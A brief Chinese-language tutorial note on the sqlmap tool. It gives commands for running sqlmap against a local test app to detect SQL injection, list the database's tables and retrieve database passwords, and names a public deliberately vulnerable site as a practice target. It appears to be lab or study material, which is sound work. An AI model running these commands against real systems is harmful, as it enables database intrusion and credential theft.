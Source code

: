 # 脚本

https://github.com/sqlmapproject/sqlmap

正常查询

在项目目录下执行命令

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --batch
```

注入风险

# 获取网站数据库表

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --tables
```

# 获取数据库密码

```
python sqlmap.py -u http://127.0.0.1:5000/?username=1 --password
```

# 靶向网站

http://testphp.vulnweb.com/artists.php?artist=1



